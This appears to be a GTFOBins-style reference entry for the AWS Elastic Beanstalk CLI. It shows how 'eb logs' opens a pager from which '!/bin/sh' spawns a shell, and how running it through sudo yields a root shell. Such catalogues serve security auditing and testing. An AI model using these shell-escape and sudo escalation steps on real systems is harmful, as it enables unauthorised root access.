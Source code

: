 ```yaml
---
description: This invokes the default logging service, which is likely to be [`journalctl`](/gtfobins/journalctl/), other functions may apply. For this to work the target must be connected to AWS instance via EB-CLI.
functions:
  shell:
    - code: |
        eb logs
        !/bin/sh
  sudo:
    - code: |
        sudo eb logs
        !/bin/sh
---
```

